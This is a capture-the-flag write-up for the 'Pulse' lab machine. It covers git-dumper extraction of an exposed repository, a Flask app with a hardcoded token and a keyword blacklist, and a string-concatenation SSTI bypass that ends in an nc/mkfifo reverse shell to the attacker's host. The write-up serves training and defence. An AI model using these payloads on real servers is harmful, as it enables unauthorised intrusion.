







Welcome to my write-up for Pulse, an engaging Linux machine that perfectly illustrates how small, overlooked deployment slip-ups can escalate into a full system compromise. This lab was a fantastic exercise in real-world infrastructure auditing, taking me through exposed source control repositories, custom sanitization filter bypasses, and an epic privilege escalation vector utilizing administrative environment manipulation.

- **Machine:** [Pulse](https://downloads.hackmyvm.eu/pulse.zip)
- **Difficulty:** Medium
- **Core concepts:**  Git Exposure & Source Code Extraction, Server-Side Template Injection (SSTI) Blacklist Bypass, Offline Password Cracking (SHA-512), Sudo Environment Manipulation (SETENV)

Whether you are looking to sharpen your source-code analysis skills or wanting to see how blacklists fall short against modern exploit payloads, this machine delivers a solid lesson on why defensive engineering requires strict validation. In this blog post, I will break down my complete methodology, from running the very first network sweeps to landing an initial foothold and eventually capturing the root flags through two distinct escalation paths. Let’s dive in!

## Getting started
Every successful compromise begins with thorough discovery. To kick things off, I used a custom  reconnaissance script called `NET-Scan.sh` to discover live hosts on my local virtual network interface (`eth0`).
```bash

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ sudo ./NET-Scan.sh

███╗   ██╗███████╗████████╗   ███████╗ ██████╗ █████╗ ███╗   ██╗
████╗  ██║██╔════╝╚══██╔══╝   ██╔════╝██╔════╝██╔══██╗████╗  ██║
██╔██╗ ██║█████╗     ██║█████╗███████╗██║     ███████║██╔██╗ ██║
██║╚██╗██║██╔══╝     ██║╚════╝╚════██║██║     ██╔══██║██║╚██╗██║
██║ ╚████║███████╗   ██║      ███████║╚██████╗██║  ██║██║ ╚████║
╚═╝  ╚═══╝╚══════╝   ╚═╝      ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
              [ 5-in-1: Nmap + Arp-Scan + Arping + Fping + Ping ]

========================================================
   NUM  INTERFACE    IP-ADRES          
========================================================
   1    eth0         10.0.2.3/24       
========================================================
[?] Kies het nummer van de interface om te scannen: 1

[*] Netwerk herrie starten (Pakket-sweeps afvuren in de achtergrond)... 
[*] Wachten tot netwerk-caches zijn gesynchroniseerd...
[*] Live ARP-data verzamelen...
[+] Scan voltooid! Tabel genereren...

========================================================================================================================
   IP-ADRES         MAC-ADRES           EST. OS         FABRIKANT / MERK                             
========================================================================================================================
   10.0.2.1         52:54:00:12:35:00   Linux/Android   Onbekend merk     
   10.0.2.2         08:00:27:9b:22:4c   Router/Cisco    PCS Systemtechnik GmbH     
   10.0.2.34        08:00:27:e9:7a:43   Linux/Android   PCS Systemtechnik GmbH     
   10.0.2.3         08:00:27:24:46:73   Linux (Local)   Dit Kali-apparaat          
========================================================================================================================

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ ip=10.0.2.34 
```
The script successfully mapped out the network and identified our target at **`10.0.2.34`**, which was flagged as a Linux machine running inside an Oracle VirtualBox environment.
## Enumeration
With the target IP confirmed, I assigned it to a local environment variable (`ip=10.0.2.34`) and fired up **Nmap** to run a full port scan (`-p-`), checking for service versions (`-sV`) and running default scripts (`-sC`).
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ sudo nmap -sC -sV -T4 -p- $ip 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-11-08 16:21 +0100
Nmap scan report for 10.0.2.34
Host is up (0.00043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.2p1 Ubuntu 2ubuntu3.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.3 (Ubuntu)
|_http-title: Pulse Systems | Distributed Telemetry & Infrastructure Observa...
|_http-server-header: nginx/1.28.3 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/dev/ /internal/
MAC Address: 08:00:27:E9:7A:43 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.56 seconds

```
The scan finished quickly and revealed two open TCP ports:
- **Port 22 (SSH):** Running OpenSSH 10.2p1 on Ubuntu Linux.
- **Port 80 (HTTP):** Running an **nginx 1.28.3** web server.

Interestingly, Nmap's default HTTP scripts automatically picked up a `robots.txt` file containing two disallowed entries:
- `/dev/`
- `/internal/`

To gather more context about the web server technologies, I used `WhatWeb` against the base URL.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ url=http://$ip

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ whatweb $url
http://10.0.2.34 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.28.3 (Ubuntu)], IP[10.0.2.34], Title[Pulse Systems | Distributed Telemetry & Infrastructure Observability], UncommonHeaders[x-notice], nginx[1.28.3]                                                                                            
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ curl $url/dev             
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.28.3 (Ubuntu)</center>
</body>
</html>

┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ curl $url/internal
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.28.3 (Ubuntu)</center>
</body>
</html>

```
The application title pointed to a system named **Pulse Systems | Distributed Telemetry & Infrastructure Observability**. It also leaked a non-standard HTTP header: `x-notice`.

Next, I used **curl** to manually inspect the hidden paths found in `robots.txt`:
- Polling `/dev` triggered a **301 Moved Permanently** redirect, indicating that the directory exists but requires proper routing or handling.
- Polling `/internal` returned a sharp **404 Not Found** error.

Since the target profile focuses heavily on "Distributed Telemetry" and infrastructure tracking, it was highly probable that the server utilizes Virtual Hosts (vhosts) to route different subdomains to different internal tools.


Time to check the main page in the browser.
{: width="700" height="400" }

To ensure my browser and testing tools could communicate with these domains correctly, I updated my local `/etc/hosts` file.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ sudo nano /etc/hosts      

└─$ cat /etc/hosts           
127.0.0.1       localhost secure.hmv
127.0.1.1       kali
10.0.2.34       pulse.hmv monitor.pulse.hmv

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```
With our local routing correctly configured, we are now ready to dig deeper into these web interfaces and find our initial entry point.

Next we should check the `/dev` folder in the browser.

{: width="700" height="400" }

Following the trail to `http://monitor.pulse.hmv/` revealed a monitoring tool interface. However, remember that production development structures often leave behind deployment artifacts.

Testing for common source control exposures, I checked if the `.git` directory was accessible at `http://monitor.pulse.hmv/.git/`.

The server returned a successful `200 OK` status for the repository head. Leaving a `.git` folder exposed on a public-facing web server is a critical misconfiguration; it allows an attacker to reconstruct the entire history and source code of the web application.

To extract the exposed repository cleanly, I used **`git-dumper`** within a Python virtual environment. This tool automatically maps out and downloads the `.git` object tree recursively from the target URL, recreating the repository locally.

```bash
┌──(.venv)─(emvee㉿kali)-[~/Documents/Pulse]
└─$ git-dumper http://monitor.pulse.hmv/.git/ .
Warning: Destination '.' is not empty
[-] Testing http://monitor.pulse.hmv/.git/HEAD [200]
[-] Testing http://monitor.pulse.hmv/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://monitor.pulse.hmv/.git/ [200]
[-] Fetching http://monitor.pulse.hmv/.gitignore [404]
[-] http://monitor.pulse.hmv/.gitignore responded with status code 404
[-] Fetching http://monitor.pulse.hmv/.git/refs/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/logs/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/info/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/description [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/COMMIT_EDITMSG [200]
[-] Fetching http://monitor.pulse.hmv/.git/refs/tags/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/refs/heads/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/index [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/commit-msg.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/HEAD [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/post-update.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-commit.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-merge-commit.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/config [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-push.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/pre-receive.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/sendemail-validate.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/push-to-checkout.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/hooks/update.sample [200]
[-] Fetching http://monitor.pulse.hmv/.git/logs/refs/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/logs/HEAD [200]
[-] Fetching http://monitor.pulse.hmv/.git/info/exclude [200]
[-] Fetching http://monitor.pulse.hmv/.git/refs/heads/master [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/13/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/21/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/48/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/4f/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/62/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/64/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/65/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/95/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/9d/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/ac/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/b3/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/info/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/pack/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/logs/refs/heads/ [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/13/68c65ccfe92aea87f7081195ae305e998900ce [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/48/3e1a3fa6fa97d5684a6e495a1980b2c492633b [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/21/c93467ea41f8abca8dda2261ceea6a5078b347 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/4f/2e02b86b3e37e680793f0ee43d57d00290f2b0 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/62/2b3c9f4d64493330241aa5e54b7b726a04cb15 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/64/141791d5e6e08d8ec4b79dceaef5ff3fad00a9 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/65/fdb695a7038471f1a8b6a101a1706f428c0e1c [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/64/789d71ac6385d4bb62ecaef371e8cb802df6e1 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/95/657ca0bb8f9c215ea30d5a41893d0313415777 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/9d/16f9c8b8e589e1e5b0da738eabb771b6ca0747 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/ac/5bb31501c69b56932ee878b95e8f52a61df602 [200]
[-] Fetching http://monitor.pulse.hmv/.git/objects/b3/922a7fd7d48a5c298cfa644292c4b9d3badea6 [200]
[-] Fetching http://monitor.pulse.hmv/.git/logs/refs/heads/master [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 4 paths from the index

```
The tool successfully downloaded the commit logs, index files, configurations, and internal Git object hashes.

With the Git repository successfully cloned onto my local machine, I began diving into the code's development history. Reviewing the commit logs provides critical insight into what the developers modified and what security controls they recently tried to implement.

I ran `git log` to examine the project's commit history.
```bash
┌──(.venv)─(emvee㉿kali)-[~/Documents/Pulse]
└─$ git log --all --oneline  
483e1a3 (HEAD -> master) security: enforce X-Pulse-Auth header authentication on /diagnostics endpoint
65fdb69 feat: add notification template rendering sandbox for alert testing
21c9346 feat: initial commit for Pulse cluster telemetry monitor
```
The log revealed three commits, with the latest entry explicitly mentioning a security enforcement update on a specific endpoint.

I inspected the codebase changes made in the latest commit (`483e1a3`) using `git show`. This revealed the entire source structure of a Flask application (`app.py`) managed by developer Alex Morgan.
```bash
┌──(.venv)─(emvee㉿kali)-[~/Documents/Pulse]
└─$ git show 483e1a3 
commit 483e1a3fa6fa97d5684a6e495a1980b2c492633b (HEAD -> master)
Author: Alex Morgan <alex@pulse.hmv>
Date:   Thu Sep 10 10:10:59 2026 +0000

    security: enforce X-Pulse-Auth header authentication on /diagnostics endpoint

diff --git a/app.py b/app.py
new file mode 100644
index 0000000..b3922a7
--- /dev/null
+++ b/app.py
@@ -0,0 +1,68 @@
+#!/usr/bin/env python3
+import os
+import datetime
+from flask import Flask, render_template, render_template_string, request, jsonify
+
+app = Flask(__name__)
+app.config['SECRET_KEY'] = 'c798e1f02a45b891d2ef64098bc19a32'
+
+# Security token for automated alerting diagnostic probes
+DIAGNOSTIC_TOKEN = "pU1s3_d14gn0st1cs_k3y_98234"
+
+SYSTEM_NODES = [
+    {"name": "Core-Gateway-01", "ip": "10.0.2.15", "status": "UP", "cpu": "14%", "mem": "42%", "latency": "1.2ms"},
+    {"name": "Telemetry-Broker-01", "ip": "10.0.2.16", "status": "UP", "cpu": "28%", "mem": "61%", "latency": "2.4ms"},
+    {"name": "Audit-Pipeline-01", "ip": "10.0.2.17", "status": "UP", "cpu": "9%", "mem": "33%", "latency": "1.8ms"},
+    {"name": "Database-Cluster-Primary", "ip": "10.0.2.18", "status": "UP", "cpu": "35%", "mem": "78%", "latency": "0.9ms"}
+]
+
+@app.route('/')
+def index():
+    now = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S UTC")
+    return render_template('index.html', nodes=SYSTEM_NODES, timestamp=now)
+
+@app.route('/api/nodes', methods=['GET'])
+def api_nodes():
+    return jsonify({
+        "status": "success",
+        "cluster": "pulse-prod-eu",
+        "nodes": SYSTEM_NODES
+    })
+
+@app.route('/diagnostics', methods=['GET', 'POST'])
+def diagnostics():
+    if request.method == 'GET':
+        return render_template('diagnostics.html')
+
+    token = request.headers.get('X-Pulse-Auth') or request.form.get('token') or request.args.get('token')
+    if token != DIAGNOSTIC_TOKEN:
+        return jsonify({
+            "status": "error",
+            "message": "Access Denied: Missing or invalid diagnostic authentication token."
+        }), 403
+
+    template = request.form.get('template') or request.args.get('template') or "System Health: All metrics within threshold."
+
+    # Filter dangerous keywords in templates
+    blacklist = ['os', 'popen', 'system', 'subprocess', 'eval', 'exec', 'commands', '__import__']
+    for keyword in blacklist:
+        if keyword in template.lower():
+            return jsonify({
+                "status": "error",
+                "message": f"Security restriction: Keyword '{keyword}' is blocked by template sanitizer."
+            }), 400
+
+    try:
+        rendered = render_template_string(template)
+        return jsonify({
+            "status": "success",
+            "output": rendered
+        })
+    except Exception as e:
+        return jsonify({
+            "status": "error",
+            "message": f"Template compilation failed: {str(e)}"
+        }), 500
+
+if __name__ == '__main__':

```
Reading through `app.py`, two massive security vulnerabilities immediately stood out: **Hardcoded Credentials** and an unsafe **Server-Side Template Injection (SSTI)** implementation.

**Harcoded Credentials**

The developer hardcoded a sensitive authentication token directly inside the application variables to authenticate automated monitoring probes:
```python
# Security token for automated alerting diagnostic probes
DIAGNOSTIC_TOKEN = "pU1s3_d14gn0st1cs_k3y_98234"
```
This token is validated when accessing the `/diagnostics` route. We can bypass authentication completely by passing this string inside the custom `X-Pulse-Auth` HTTP header, or via the `token` parameter.

**Server-Side Template Injection (SSTI)**

Looking closely at the `/diagnostics` route, the application takes user input via the `template` parameter and passes it directly into Flask's native `render_template_string()` function.
```python
template = request.form.get('template') or request.args.get('template') or ...
...
rendered = render_template_string(template)
```
Passing unsanitized user input straight into `render_template_string()` allows for **Server-Side Template Injection (SSTI)**. Because Flask utilizes the **Jinja2** templating engine, an attacker can input expressions inside mathematical delimiters like `{{ 7*7 }}` to evaluate code directly on the server host.

The developer recognized the injection risk and attempted to mitigate it by implementing a keyword based string blacklist.
```python
blacklist = ['os', 'popen', 'system', 'subprocess', 'eval', 'exec', 'commands', '__import__']
for keyword in blacklist:
    if keyword in template.lower():
        return jsonify({"status": "error", "message": f"Security restriction..."}), 400

```
While this blacklist blocks obvious payload keywords like `os.system` or `subprocess.popen`, it is fundamentally flawed. In Python and Jinja2, blacklists are notoriously easy to bypass because we can reconstruct blocked strings using concatenation, hex encoding, or by navigating Python's object class reference hierarchy dynamically (e.g., pulling attributes from strings via `request.args` or using string formatting).

Our next milestone is clear: bypass this string sanitizer, leverage the hardcoded token, and achieve Remote Code Execution (RCE).
First we should navigate to `http://monitor.pulse.hmv`

{: width="700" height="400" }

Next we can open `Alert Diagnostics Tool` in the browser.
{: width="700" height="400" }

This page shows us Jinja 2. This is the page we should try to use to gain access to the system.
First we should try to identify the SSTI in one of the fields. We can try `{{7*7}} in a field and press the button to see the response. If it works the number 49 will shown.

{: width="700" height="400" }

In the source code we have identified a blacklist of words. Those should be bypassed.
To slip past the backend string validation, I decided to use **String Concatenation** inside the payload. By splitting the forbidden strings `'__import__'`, `'os'`, and `'popen'` into joined fragments (like `'o' + 's'`), the code bypasses the developer's keyword filter while cleanly rendering the instructions inside Jinja2.

```python
{{ self.__init__.__globals__.__builtins__['__im' + 'port__']('o' + 's')['pop' + 'en']('id').read() }}
```

{: width="700" height="400" }

We have proven the web page is vulnerable for RCE via SSTI.

## Initial access
Before running the exploit, I set up a local netcat listener on port `5555` to catch the incoming connection.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ nc -lvp 5555         
listening on [any] 5555 ...

```
Next, I structured a standard Linux reverse shell payload using a named pipe (`mkfifo`). I nested this entire execution sequence inside the Jinja2 template parameter via a `POST` request to `http://monitor.pulse.hmv/diagnostics`
```python
{{ self.__init__.__globals__.__builtins__['__im' + 'port__']('o' + 's')['pop' + 'en']('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.0.2.3 5555 >/tmp/f').read() }}
```

{: width="700" height="400" }

The payload successfully executed on the target host. Looking back at my listener, the connection snapped right into place.
```bash
┌──(emvee㉿kali)-[~/Documents/Pulse]
└─$ nc -lvp 5555         
listening on [any] 5555 ...
connect to [10.0.2.3] from pulse.hmv [10.0.2.34] 47312
sh: 0: can't access tty; job control turned off
$ 

```
We have successfully landed an initial foothold! I instantly ran some basic fingerprinting commands to assess our current execution privileges and host context.
```bash
$ whoami;id;hostname;ip a;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pulse
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:e9:7a:43 brd ff:ff:ff:ff:ff:ff
    altname enx080027e97a43
    inet 10.0.2.34/24 metric 100 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 572sec preferred_lft 572sec
    inet6 fe80::a00:27ff:fee9:7a43/64 scope link proto kernel_ll 
       valid_lft forever preferred_lft forever
/var/www/monitor
$ 
```
Our shell is running as the standard low-privileged web server daemon account, **`www-data`**, stationed inside the `/var/www/monitor` folder.

With system access secured, the next logical goal is to find horizontal movement targets or sensitive configuration assets. I began mapping out the `/opt` directory to look for custom or third party infrastructure configurations. 
```bash
$ ls -ahlR /opt
/opt:
total 12K
drwxr-xr-x  3 root root     4.0K Sep 10 10:11 .
drwxr-xr-x 20 root root     4.0K Sep  6 10:35 ..
drwxr-xr-x  3 root www-data 4.0K Sep 10 10:11 pulse

/opt/pulse:
total 12K
drwxr-xr-x 3 root www-data 4.0K Sep 10 10:11 .
drwxr-xr-x 3 root root     4.0K Sep 10 10:11 ..
drwxr-xr-x 2 root www-data 4.0K Sep 10 10:11 data

/opt/pulse/data:
total 28K
drwxr-xr-x 2 root www-data 4.0K Sep 10 10:11 .
drwxr-xr-x 3 root www-data 4.0K Sep 10 10:11 ..
-rw-r--r-- 1 root www-data  20K Sep 10 10:11 users.db
$ 

```
